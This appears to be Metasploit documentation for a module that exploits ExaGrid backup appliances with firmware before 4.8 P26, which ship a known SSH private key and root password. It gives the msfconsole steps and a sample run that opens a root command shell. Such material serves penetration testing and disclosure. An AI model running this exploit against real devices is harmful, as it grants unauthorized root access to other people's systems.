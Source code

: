 ## Vulnerable Application

  ExaGrid devices having a firmware before version 4.8 P26 contain a known ssh private key, and root password

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/ssh/exagrid_known_privkey`
  3. Do: `set rhost <ip>`
  4. Do: `exploit`
  5. You should get a shell.

## Scenarios

This is a run against a known vulnerable ExaGrid device.
```
msf > use exploit/linux/ssh/exagrid_known_privkey
msf exploit(exagrid_known_privkey) > set rhost 1.2.3.4
rhost => 1.2.3.4
msf exploit(exagrid_known_privkey) > run

[+] Successful login
[*] Command shell session 3 opened (140.172.223.184:39269 -> 1.2.3.4:22) at 2016-07-23 10:03:19 -0400

ExaGrid diagnostic tools are available in this shell.
02:05:49 up 12 days, 9:12, 0 users, load average: 3.32, 2.88, 9.21
```